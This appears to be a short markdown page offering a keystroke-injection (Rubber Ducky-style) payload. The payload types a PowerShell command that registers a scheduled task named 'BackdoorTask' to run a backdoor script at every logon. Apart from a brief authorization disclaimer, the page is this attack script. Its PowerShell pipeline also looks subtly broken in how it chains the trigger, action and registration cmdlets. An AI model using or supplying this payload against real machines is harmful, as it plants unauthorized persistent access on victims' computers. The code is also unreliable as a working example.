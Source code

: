 # Creating a Persistent Backdoor via Scheduled Task

Creates a scheduled task that runs a backdoor script at logon.

```
DELAY 500
GUI r
DELAY 200
STRING powershell -Command "New-ScheduledTaskTrigger -AtLogon | New-ScheduledTaskAction -Execute 'powershell.exe' -Argument 'C:\\path\\to\\backdoor.ps1' | Register-ScheduledTask -TaskName 'BackdoorTask'"
ENTER
```

> Disclaimer: This script is for educational purposes and should only be used in environments where you have explicit authorization to perform penetration testing. Always follow ethical guidelines and laws governing cybersecurity practices.